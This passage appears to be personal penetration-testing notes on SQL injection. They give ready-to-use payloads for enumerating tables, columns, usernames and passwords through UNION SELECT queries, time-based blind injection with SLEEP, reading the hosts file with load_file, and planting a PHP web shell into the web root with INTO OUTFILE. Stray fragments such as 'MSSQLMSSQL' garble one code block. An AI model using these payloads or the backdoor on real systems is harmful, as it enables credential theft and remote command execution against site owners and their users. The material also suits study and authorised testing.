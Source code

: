 Can confirm found table within found db:  
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'found_db' and table_name='found_table';--
```


Enum through columns:  
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='found_db' and TABLE_NAME='found_table' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';  

```
  
  
Enum through data:  
```sql
false_user' UNION SELECT 1,2,3 FROM found_table WHERE username_col='a%'
```
	Find usernames  

```sql
false_user' UNION SELECT 1,2,3 FROM found_table WHERE username_col='admin' and password_col like 'a%'
MSSQLMSSQL```
	Find passwords  
  
  
  
### Time-Based Blind SQLi:
Similar to Boolean-Based, but the time it takes for the query to complete indicates whether the the query is correct or not.  
  
Time delay method SLEEP(x) is added alongside UNION statement, whereby SLEEP(x) will only get executed upon a successful UNION SELECT statement.  
```sql
false_user' UNION SELECT SLEEP(5);--
```
  
Can then craft enumeration queries as shown above ^^  
  
  
### Code Execution:
Depends on OS, service privileges, & filesystem permissions.  
  
Can use [load_file](https://www.exploit-db.com/papers/14635) and _Into OUTFILE_ functions to read from/ write to a file on the underlying OS.  
  
Read from hosts file:  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
 
Writing a PHP backdoor to the web server:  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
